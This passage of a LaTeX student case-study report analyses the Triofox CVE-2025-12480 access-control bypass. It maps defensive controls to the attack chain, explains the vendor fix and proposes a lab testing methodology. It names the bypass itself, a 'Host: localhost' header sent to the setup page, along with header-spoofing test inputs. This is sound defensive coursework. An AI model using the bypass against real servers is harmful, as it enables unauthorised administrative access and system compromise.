The academic literature is consistent on one point that bears directly here: broken access control is the hardest of the major categories for automated tools to find, because a scanner cannot know what a user is supposed to be allowed to do. Anas, Elgamal, and Youssef, surveying detection techniques, note that identifying broken access control requires thorough knowledge of the application's intended behaviour, which generic scanners lack. Amankwah and colleagues reach a compatible conclusion: even capable commercial and open-source scanners need broader coverage, produce false positives, and perform worst on logic and authorisation flaws. Austin, Holmgreen, and Williams, comparing discovery techniques on a web application, found that no single technique dominates and that manual and automated methods each find flaws the others miss, with automated tools faster per vulnerability but narrower in what they catch.

The implication for Triofox is specific. An off-the-shelf scanner pointed at the application would likely have crawled \code{AdminDatabase.aspx}, received the \code{AccessDenied} redirect, and marked the page protected. The flaw only appears when a tester forms the hypothesis that the redirect is conditional on a client-controlled value and tests the \code{Host}-header variant by hand. This is why the proposed methodology below is manual and hypothesis-driven, not scanner-driven.

% ======================================================================
% SOLUTIONS
% ======================================================================
\section{Solutions and Model Evaluation}

\subsection{Controls mapped to the chain}

The most useful way to evaluate controls is to ask, for each link in \Cref{fig:chain}, which control would have broken or exposed it. \Cref{tab:controls} does this. The point is not that any one control is sufficient; it is that the chain offered several independent opportunities to stop it, and a defence-in-depth posture needs only one of them to hold.

\begin{table}[htbp]
\centering
\caption{Controls evaluated against the documented attack chain.}
\label{tab:controls}
\small
\begin{tabularx}{\textwidth}{p{0.26\textwidth} X p{0.17\textwidth}}
\toprule
\rowcolor{headergrey}\textbf{Control} & \textbf{Effect on the chain} & \textbf{Stage interrupted} \\
\midrule
Server-side origin validation & Decide "local" from the socket (\code{REMOTE\_ADDR}), never the \code{Host} header; reject requests bearing \code{X-Forwarded-For}. This is the actual vendor fix. & 1 (prevents) \\
Protect initialisation functionality & Disable or session-gate setup pages once setup completes; redirect to login, not to a reusable setup flow. & 1--2 (prevents) \\
Least privilege for integrations & Run the anti-virus scanner in a reduced-rights context; validate or allowlist the scanner executable. & 3 (contains) \\
Egress and application-layer controls & Restrict outbound connections from the server; a web app server should not initiate arbitrary HTTP or SSH egress. & 4, 6 (contains) \\
Patch management & Apply the 26 July fix before the 24 August exploitation; track time-to-patch for internet-facing assets. & all (prevents) \\
Behavioural detection and alerting & Alert on a web worker spawning \code{cmd.exe}, renamed tunnelling tools, and RDP-over-SSH. This is what actually worked. & 3--6 (detects) \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{How the vendor fix works}

Rapid7's analysis of the patch confirms the fix is exactly the server-side correction the analysis predicts \tier{documented}. In 16.7.10368.56560, the \code{Host == localhost} comparison is removed entirely; the origin check now uses the socket-level client address rather than a header-derived value, requests carrying \code{X-Forwarded-For} are rejected, and the setup pages \code{AdminDatabase.aspx} and \code{MigrateDatabase.aspx} additionally require a valid session with cluster-admin status, redirecting to the login page otherwise. The fix moves the trust decision from a value the client controls to one the server observes, and it closes the initialisation surface after setup. Both of the design faults identified in the A06 analysis are addressed.

\subsection{Proposed authorised-lab testing methodology}

The following is a \tier{proposed} methodology for an authorised lab instance, not a record of tests performed. It is deliberately manual where the flaw class demands it. \Cref{tab:matrix} gives a test matrix with expected outcomes; the "expected result" column states what a correctly behaving patched system should do, and must not be read as an observed finding.

\begin{enumerate}
\item \textbf{Scope and authorise.} Stand up Triofox in an isolated VM with written authorisation. Never test production.
\item \textbf{Baseline the control.} Request \code{AdminDatabase.aspx} normally and confirm the \code{AccessDenied} redirect, establishing that a control is nominally present.
\item \textbf{Hypothesise client-controlled trust.} Form the hypothesis that the redirect depends on a client-supplied value, and enumerate candidates: \code{Host}, \code{X-Forwarded-For}, \code{Referer}.
\item \textbf{Test the header variant.} Re-issue the request with \code{Host: localhost} and observe whether access is granted. On an unpatched instance this is the bypass; on a patched one it should not be.
\item \textbf{Trace the workflow, do not weaponise it.} If access is granted, document that the setup workflow becomes reachable. Stop short of creating accounts or executing code on anything but a disposable lab host.
\item \textbf{Review the privileged feature.} Inspect whether the anti-virus path setting runs with \code{SYSTEM} rights and whether the executable is validated.
\item \textbf{Verify logging.} Confirm that access control failures and anomalous setup-page access generate alertable events at a layer outside the application.
\end{enumerate}

\begin{table}[htbp]
\centering
\caption{Proposed test matrix. Expected results describe correct behaviour, not observed findings.}
\label{tab:matrix}
\small
\begin{tabularx}{\textwidth}{p{0.30\textwidth} X p{0.22\textwidth}}
\toprule
\rowcolor{headergrey}\textbf{Test} & \textbf{Request characteristic} & \textbf{Expected result (patched)} \\
\midrule
Normal access & Default headers & Redirect to \code{AccessDenied} / login \\
Host-header override & \code{Host: localhost} & Access denied \\
Forwarded-for override & \code{X-Forwarded-For: 127.0.0.1} & Request rejected \\
Post-setup re-access & Valid setup URL after install & Redirect to login (session required) \\
AV path configuration & Non-allowlisted executable path & Rejected or run with reduced rights \\
\bottomrule
\end{tabularx}
\end{table}

\subsection{A note on the journal-only requirement}

The course guidance asks that background and references rely on journal papers. That is sound for the scholarly framing: the access control, testing, and patch management literature cited here is peer-reviewed. But the specific facts of this incident, the CVE metadata, the attack chain, the patch diff, exist only in primary vendor and incident sources. Omitting them, or dressing them up as journal papers, would make the case study unverifiable or dishonest. The references below are therefore split into peer-reviewed literature and primary incident sources, each labelled for what it is.

% ======================================================================
% CONCLUSION
% ======================================================================
\section{Conclusion}

CVE-2025-12480 is a small flaw with a large consequence, and that disproportion is the lesson. One authorisation check trusted a value the attacker could set, and from that single point the UNC6485 campaign reached \code{SYSTEM}-level code execution, deployed legitimate remote-access tooling, tunnelled RDP out of the network, and reached for Domain Admins. Nothing in the chain after the first step required a sophisticated exploit; the attacker mostly used the product's own features and signed, off-the-shelf tools.

Mapped to the OWASP Top 10:2025, the incident is primarily Broken Access Control (A01), with the server-side enforcement failure at its centre. It draws secondarily on Insecure Design (A06), in the trust-boundary violation and the privileged anti-virus feature, and on Security Misconfiguration (A02), in the live setup pages and unset hardening. The evidence does not support forcing it further down the list, and the analysis has resisted doing so.

Two conclusions carry beyond Triofox. First, authorisation decisions must be made from data the server observes, not data the client sends, and first-run functionality must become inert once it has served its purpose. Second, when prevention fails, as it did here, detection at a layer the attacker does not control is what bounds the damage; effective behavioural alerting turned a total compromise into a 16-minute containment. The vulnerability was patched before it was ever exploited. The organisations that were compromised were compromised by the gap between a fix being available and being applied, which is a reminder that vulnerability management is as much an operational discipline as a technical one.

% ======================================================================
% REFERENCES
% ======================================================================
\section*{References}
\addcontentsline{toc}{section}{References}
\small

\textbf{Peer-reviewed literature}
\begin{enumerate}[label={[}{\arabic*}{]},leftmargin=2.4em]
\item J.~H. Saltzer and M.~D. Schroeder, ``The protection of information in computer systems,'' \textit{Proceedings of the IEEE}, vol.~63, no.~9, pp.~1278--1308, 1975.
\item R.~S. Sandhu and P.~Samarati, ``Access control: principle and practice,'' \textit{IEEE Communications Magazine}, vol.~32, no.~9, pp.~40--48, 1994.
\item X.~Li and Y.~Xue, ``A survey on server-side approaches to securing web applications,'' \textit{ACM Computing Surveys}, vol.~46, no.~4, pp.~1--29, 2014.
\item A.~Austin, C.~Holmgreen, and L.~Williams, ``A comparison of the efficiency and effectiveness of vulnerability discovery techniques,'' \textit{Information and Software Technology}, vol.~55, no.~7, pp.~1279--1288, 2013.
\item A.~Anas, S.~Elgamal, and B.~Youssef, ``Survey on detecting and preventing web application broken access control attacks,'' \textit{International Journal of Electrical and Computer Engineering}, vol.~14, no.~1, pp.~772--781, 2024.
\item A.~Santos Filho, R.~J. Rodr\'iguez, and E.~L. Feitosa, ``Automated broken object-level authorization attack detection in REST APIs through OpenAPI to colored Petri nets transformation,'' \textit{International Journal of Information Security}, vol.~24, art.~83, 2025.
\item R.~Amankwah, J.~Chen, P.~K. Kudjo, and D.~Towey, ``An empirical comparison of commercial and open-source web vulnerability scanners,'' \textit{Software: Practice and Experience}, vol.~50, no.~9, pp.~1842--1857, 2020.
\item W.~Xiong and R.~Lagerstr\"om, ``Threat modeling -- A systematic literature review,'' \textit{Computers \& Security}, vol.~84, pp.~53--69, 2019.
\item A.~G. Bacudio, X.~Yuan, B.~T.~B. Chu, and M.~Jones, ``An overview of penetration testing,'' \textit{International Journal of Network Security \& Its Applications}, vol.~3, no.~6, pp.~19--38, 2011.
\end{enumerate}

\textbf{Primary incident and standards sources}
\begin{enumerate}[label={[}{\arabic*}{]},leftmargin=2.4em,start=10]
\item S.~D'Souza, P.~DSouza, B.~Glynn, K.~O'Flynn, and Y.~Gupta, ``No place like localhost: Unauthenticated remote access via Triofox vulnerability CVE-2025-12480,'' Mandiant / Google Cloud Threat Intelligence, 10~Nov.\ 2025. [Online]. Available: \url{https://cloud.google.com/blog/topics/threat-intelligence/triofox-vulnerability-cve-2025-12480}
\item Mandiant, ``MNDT-2025-0008: Triofox improper access control,'' Vulnerability Disclosures, 2025. [Online]. Available: \url{https://github.com/mandiant/Vulnerability-Disclosures/blob/master/2025/MNDT-2025-0008.md}
\item MITRE, ``CVE-2025-12480,'' CVE Record. [Online]. Available: \url{https://www.cve.org/CVERecord?id=CVE-2025-12480}
\item Rapid7, ``CVE-2025-12480 (Triofox / CentreStack) analysis,'' Rapid7 Blog, 2026. [Online]. Available: \url{https://www.rapid7.com/blog/post/ra-cve-2025-12480-analysis/}
\item Gladinet, ``Triofox releases history.'' [Online]. Available: \url{https://access.triofox.com/releases_history/}
\item OWASP Foundation, ``OWASP Top 10:2025,'' 2025. [Online]. Available: \url{https://top10.owasp.org/2025/}
\item CISA, ``Known Exploited Vulnerabilities Catalog.'' [Online]. Available: \url{https://www.cisa.gov/known-exploited-vulnerabilities-catalog}
\end{enumerate}

\vspace{4pt}
{\footnotesize\color{meta}Evidence tiers used in this report: \textsf{[documented]} fact from a primary source; \textsf{[interpretation]} the author's analysis; \textsf{[proposed]} testing not performed. No production Triofox system was accessed or tested.}

\end{document}
